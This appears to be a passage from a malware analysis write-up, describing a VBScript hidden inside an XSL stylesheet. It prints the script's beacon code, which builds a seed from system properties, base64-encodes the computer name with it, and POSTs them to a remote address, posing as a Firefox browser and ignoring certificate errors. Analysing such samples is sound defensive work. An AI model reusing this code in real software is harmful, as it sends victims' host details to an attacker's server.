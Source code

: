 ```vbscript
				
	else
	end if
]]></ms:script>
</stylesheet>
```

The script included a section that generated a random string using a seed based on system properties, which was then sent via a `POST` request to `updatelog`, along with the hostname in base64 format.
```vbscript
Dim strRandom
characters = "THEQUICKBROWNFOXJUMPSOVERTHELAZYDOG!@#$&*+=_;0123456789thequickbrownfoxjumpsoverthlazydog"
Dim seed
seed = CStr(usedMemory) & CStr(usedSpaceTotal) & CStr(freeSpaceTotal) & CStr(freeMemory)  & CStr(sys) & CStr(perf) & CStr(received) & CStr(sent) & CStr(Timer)
Rnd(-1)
Randomize seed
For i = 1 To 64
    
    randomNum = Int(Len(characters) * Rnd(2))
    randomChar = Mid(characters, randomNum + 1, 1)    
    strRandom = strRandom & randomChar
Next

Set httpRequest = CreateObject("WinHttp.WinHttpRequest.5.1")
httpRequest.Open "POST", "http://192.168.77.136/updatelog", False
httpRequest.SetRequestHeader "Content-Type", "application/x-www-form-urlencoded"
httpRequest.SetRequestHeader "accept-language", "fr"
httpRequest.SetRequestHeader "user-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0"
httpRequest.Option(4) = 13056
httpRequest.Option(6) = true

computerName = CreateObject("WScript.Network").ComputerName
postDataPlaintext = computerName & vbTab & seed
postDataPlaintext2 = computerName & vbTab & result

Set oXML = CreateObject("Msxml2.DOMDocument.6.0")
Set oNode = oXML.CreateElement("base64")
oNode.dataType = "bin.base64"

If InStr(1, caption, "2008", vbTextCompare) > 0 Or InStr(1, caption, "7", vbTextCompare) > 0 Then
    oNode.nodeTypedValue = Stream_StringToBinary(postDataPlaintext)
	postData = "upgrade=" & oNode.Text
Else
    oNode.nodeTypedValue = Stream_StringToBinary(postDataPlaintext)
	postData = "upgrade=" & oNode.Text
End If
```
